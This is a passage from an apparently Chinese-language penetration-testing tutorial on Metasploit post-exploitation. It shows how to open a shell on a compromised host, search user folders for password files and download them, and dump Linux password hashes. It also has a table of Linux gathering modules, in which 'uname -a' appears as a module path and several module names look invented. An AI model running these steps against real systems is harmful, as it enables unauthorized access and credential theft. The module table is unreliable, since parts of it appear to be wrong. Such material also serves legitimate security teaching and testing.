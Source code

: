 
## 4、后渗透
在获得目标访问权限后，进入Meterpreter，通过后渗透模块进一步提升权限、信息窃取、持续控制。

### 4.1、系统内信息收集
#### 0：使用 `shell` 命令切换到交互式 shell

Meterpreter 提供一种直接进入目标系统本地 Shell 的方式，运行以下命令即可：

```
shell
```

- 执行此命令后，你将进入目标系统的交互式 Bash Shell（如果目标是 Linux 系统）。

#### 1. 通用命令

• 查看系统信息：`sysinfo`
• 查看当前用户信息：`getuid`
• 查看环境变量：`getenv`
• 查看进程信息：`ps`
• 查看文件系统：
- `ls`：展示当前目录的文件
- `cd`：移动目录
-  `pwd`：当前目录
- `getwd`：本地工作目录
- `search -f *.txt -d c:\`：搜索文件。
	- 场景：查找并下载敏感文件。
	- `search -f *password*.txt -d c:\users`
-  `upload` / `download`：上传/下载文件。

##### Linux 系统内信息收集模块

| 模块名称           | 模块路径                               |
| -------------- | ---------------------------------- |
| 内核版本检测         | `uname -a`                         |
| 收集系统用户账户       | `post/linux/gather/enum_users`     |
| 获取主机名          | `post/linux/gather/hostname`       |
| 抓取网络配置信息       | `post/linux/gather/network_config` |
| 枚举系统环境变量       | `post/linux/gather/env`            |
| 枚举系统进程信息       | `post/linux/gather/processes`      |
| 获取可用命令列表       | `post/linux/gather/enum_commands`  |
| 枚举已安装软件包       | `post/linux/gather/enum_packages`  |
| 枚举系统服务信息       | `post/linux/gather/services`       |
| 抓取文件系统信息       | `post/linux/gather/filesystem`     |
| 收集系统日志文件       | `post/linux/gather/system_logs`    |
| 枚举开放端口         | `post/linux/gather/open_ports`     |
| 收集 Cron 作业内容   | `post/linux/gather/cron_jobs`      |
| 跟踪内存使用情况       | `post/linux/gather/memory_usage`   |
| 用户与配置检查（需root） | `post/linux/gather/hashdump`       |
